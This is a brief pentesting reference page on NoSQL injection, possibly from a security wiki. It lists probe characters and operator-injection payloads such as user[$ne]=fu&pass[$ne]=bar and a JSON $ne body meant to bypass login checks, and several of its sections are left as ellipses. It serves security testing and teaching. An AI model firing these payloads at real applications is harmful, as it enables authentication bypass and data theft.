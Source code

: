 This type of injection has two subtypes: arbitrary syntax injection and operator injection. Both of them may be able to run limited JavaScript in MongoDB, but data exfiltration methods and mitigations differ.

To probe syntax errors you can try to insert a valid special characters to vary the original request (notice the carriage returns!):
```
'"`{ 
;$Foo} 
$Foo \xYZ
```
Or try to insert restricted characters to cause an error:
```
%00
\u0000
null
system.FOO
```

### Injection context

In GET queries and `application/x-www-form-urlencoded` POST queries operator injection can look something like the following:
```
user[$ne]=fu&pass[$ne]=bar
```
In `application/json` POST requests NoSQL queries can be inserted directly:
```json
{"user": {"$ne": "foo"}, "pass": {"$ne": "invalid" }}
```

## Syntax injection
...

## Operator injection

In different databases operators can differ. There is provided a list of different NoSQL databases (build a fuzzing dictionary for yourself):
- MongoDB
- Couchbase
- CosmosDB
- Redis
- Amazon DynamoDB
- Apache Cassandra
- Apache HBase
- Neo4j
- Amazon Neptune
- [Yandex Clickhouse](https://blog.deteact.com/ru/yandex-clickhouse-injection/)(? discussable)

## Server Side JavaScript Injection (SSJI)
...

### See also
- [PHP execution via NSQLi](https://swarm.ptsecurity.com/rce-cockpit-cms/)